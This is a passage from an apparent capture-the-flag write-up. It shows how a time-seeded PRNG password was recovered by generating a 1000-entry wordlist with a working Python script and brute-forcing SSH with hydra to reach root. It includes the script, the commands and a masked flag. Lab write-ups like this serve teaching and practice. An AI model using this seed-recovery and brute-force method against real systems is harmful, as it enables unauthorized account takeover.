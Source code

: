 The key insight was that this custom binary likely used a time-based pseudo-random number generator (PRNG) to create the password. I used AI to find out the seed was calculated as `(seconds * 1000) + (microseconds / 1000)`. While the exact seconds were known, the microseconds were not, meaning I had to brute-force 1000 possible microsecond values (0-999).

Custom Password List Generation and Hydra Bruteforce
====================================================

Instead of manually testing each of the 1000 generated passwords, I opted for an automated approach. I used a custom Python script with the help of Gemini to generate all possible passwords based on the PRNG logic. This wordlist was then used with `hydra` for SSH brute-forcing.

The `pass_wordlist_generator.py` script:

# pass_wordlist_generator.py\
from ctypes import CDLL\
import datetime

libc = CDLL("libc.so.6")seconds = datetime.datetime(2024, 8, 30, 14, 40, 42, tzinfo=datetime.timezone(datetime.timedelta(0))).timestamp()for i in range(0,1000):\
    password = ""\
    microseconds = i\
    current_seed_value = int(seconds * 1000 + microseconds)\
    libc.srand(current_seed_value)\
    for j in range(0,20):\
        rand_int = libc.rand()\
        password += "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"[ rand_int % 62]\
    print(password)

The wordlist was generated by redirecting the script's output:

python3 pass_wordlist_generator.py > pass_list.txt\
```hydra` was then used to perform the SSH password brute-force for the `neo` user:

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*HzILg7b_WDZR0TohHF1vMw.png)

Screenshot 13: Terminal showing automated password finding.

The root flag obtained was: ********************************

(Cannot give away the flag as the machine is still active.)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*DpJIaZeZnW9TYZyseSmgpw.png)

Screenshot 14: Terminal showing `sudo su`, and `cat /root/root.txt` with the root flag. *(with username & timestamp)*

Network Diagram
===============

Here's a simplified network diagram illustrating the key interactions during this penetration test:

+----------------+\
|  Kali Linux    |\
| (Attacker)     |\
+-------+--------+\
        |\
        | SSH (22, 2222)\
        | HTTP (80)\
        | (Burp Proxy)\
        |\
```